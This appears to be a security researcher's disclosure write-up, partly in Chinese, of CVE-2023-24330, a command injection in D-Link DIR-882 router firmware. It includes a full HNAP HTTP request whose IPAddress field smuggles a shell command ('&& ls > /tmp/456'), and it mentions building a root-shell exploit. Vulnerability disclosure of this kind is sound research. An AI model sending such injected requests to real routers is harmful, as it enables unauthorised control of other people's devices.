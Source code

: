 # dlink dir 882路由器 存在命令注入漏洞 - CVE-2023-24330

## 写在前面

A command injection vulnerability was discovered in the D-Link DIR-882 firmware version DIR882A1_FW130B06, allowing remote attackers to execute arbitrary commands on the device.

• 厂商信息：https://www.dlink.com/

• 固件下载地址：https://tsd.dlink.com.tw/ddgo

## 1.影响版本

![image-20220914231359311](img/image-20220914231359311.png)

图1为固件版本信息

## 2.漏洞细节

![image-20220914231503977](img/image-20220914231503977.png)

程序通过/SetNetworkSettings/IPAddress获取到的内容传递给v6

![image-20220914231514093](img/image-20220914231514093.png)

之后将v6通过sprintf函数格式化进v39，通过system函数执行v39中的内容，存在命令注入漏洞

Impact: Code execution, Escalation of Privileges

## 复现与POC

为了重现该漏洞，可遵循以下步骤

使用fat 仿真固件DIR882A1_FW130B06.bin

使用以下poc进行攻击

```jsx
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "<http://purenetworks.com/HNAP1/SetNetworkSettings>"
HNAP_AUTH: 3FD4E69D96091F37A00F8FEC98928CB5 1649128376185
Content-Length: 633
Origin: <http://81.70.52.167:7018>
Connection: close
Referer: <http://81.70.52.167:7018/Network.html>
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>" xmlns:xsd="<http://www.w3.org/2001/XMLSchema>" xmlns:soap="<http://schemas.xmlsoap.org/soap/envelope/>">
<soap:Body>
<SetNetworkSettings xmlns="<http://purenetworks.com/HNAP1/>">
	<IPAddress>&& ls > /tmp/456 &&echo 1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

![image-20220914231555487](img/image-20220914231555487.png)

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 ![image-20220914231626945](img/image-20220914231626945.png)

 